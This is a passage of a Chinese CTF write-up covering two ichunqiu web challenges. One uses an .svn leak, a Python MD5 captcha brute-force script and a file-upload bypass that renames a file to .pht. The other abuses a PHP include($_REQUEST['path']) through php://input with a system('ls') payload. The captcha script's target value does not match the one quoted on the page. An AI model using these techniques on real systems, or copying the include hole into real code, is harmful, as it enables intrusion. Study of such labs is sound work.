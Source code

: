 访问地址：`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d`

我们对目录扫描发现有一个/.svn 有可能是源码泄露，然后对`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d/.svn`进行目录扫描发现下边有一个wc.db文件，访问一下看到一句话：`my username is md5(HEL1OW1OrDEveryOn3)`  
将这句话md5加密一下：`8638d5263ab0d3face193725c23ce095`

然后我们进入登陆页面：  
password=123456  
下边还有这句话：  
substr\(md5\(captcha\), 0, 6\)=da6137

上脚本，爆破验证码：  
import hashlib  
def md5\(s\):  
return hashlib.md5\(str\(s\).encode\(‘utf-8’\)\).hexdigest\(\)  
def main\(s\):  
for i in range\(1,99999999\):  
if md5\(i\)\[0:6\] == str\(s\):  
print\(i\)  
exit\(0\)  
if **name** == ‘**main**‘:  
main\(“e34002”\)

获得验证码后点击submit得到这句话  
The 7815696ecbf1c96e6894b779456d330e.php:\) Welcome 8638d5263ab0d3face193725c23ce095\!  
然后访问url：`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d/7815696ecbf1c96e6894b779456d330e.php`

进入到一个文件上传的页面，经典的文件上传漏洞，上传一个jpg图片，打开burp suite抓个包将文件名后缀改成pht即可得到flag.

### [](#5-include "5.include")5.include

题目内容：没错！就是文件包含漏洞

进去后看到一串代码：

```
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
```

通过代码审计发现可以传入一个参数path，里面的填入的文件路径可以访问，  
那么试一试传入`?path=flag.php` 看能不能得到flag 但是发现并不行  
刚开始没什么头绪，后来想到能不能试一试为协议呢：  
于是传入参数：`?path=php://input`  
然后post里面传入一个一句话：`<?php system('ls'); ?>`

![](14.png)
